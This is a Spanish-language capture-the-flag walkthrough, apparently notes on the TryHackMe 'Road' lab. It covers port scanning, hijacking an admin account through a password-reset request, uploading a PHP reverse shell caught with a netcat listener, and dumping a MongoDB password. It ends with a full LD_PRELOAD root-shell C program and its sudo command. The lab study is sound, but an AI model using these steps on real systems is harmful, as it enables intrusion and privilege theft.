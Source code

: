 https://tryhackme.com/r/room/road
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.141.243
```
![[Pasted image 20240603211641.png]]
## Reconocimiento de servicios
```
nmap -sVC -p22,80 -Pn 10.10.141.243
```
![[Pasted image 20240603211720.png]]
## Fuzzing 
```
gobuster dir -u http://10.10.141.243 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
![[Pasted image 20240603212307.png]]
![[Pasted image 20240603212514.png]]
Nos registramos
Vemos que usuario admin es admin@sky.thm
# Fase de ataque
Tenemos un apartado para cambiar la contraseña del usuario registrado sin tener la contraseña anterior , podemos intentar capturar la petición mediante Burp Suite y cambiar mi usuario por el de administrador
![[Pasted image 20240603213142.png]]
![[Pasted image 20240603213258.png]]
Login como admin exitoso!
# LGI to PHP reverse shell
Copiamos una reverse shell
![[Pasted image 20240603214141.png]]
![[Pasted image 20240603214526.png]]
Lo subimos al servidor
![[Pasted image 20240603214357.png]]
Nos ponemos en escucha por el puerto 443 para recibir la Shell
``` 
nc -nlvp 443
```
Buscamos
![[Pasted image 20240603214736.png]]
[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
```
stty rows 44 columns 184
```
# Privilege Escalation
 ver puertos abiertos expuestos en localhost
 ```
 ss -tl
```
![[Pasted image 20240603220502.png]]
Nos conectamos al mongo 
![[Pasted image 20240603221202.png]]
```
show dbs
use backup
db.user.find()
```
![[Pasted image 20240603221642.png]]
BahamasChapp123!@#
## Pivoting a otro usuario
Buscamos privilegios del usuario
```
sudo -l
```
![[Pasted image 20240604200837.png]]
Vemos que tiene una variable y lo encontramos en https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path
## LD_PRELOAD
1. Creamos un programa en C en /tmp que lanza una terminal root llamdo shell.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
2. Compilamos
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Se crea un archivo shell.so
3. Ejecutamos el shell con el comando con privilegios
```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```
[+] ==pwned!==
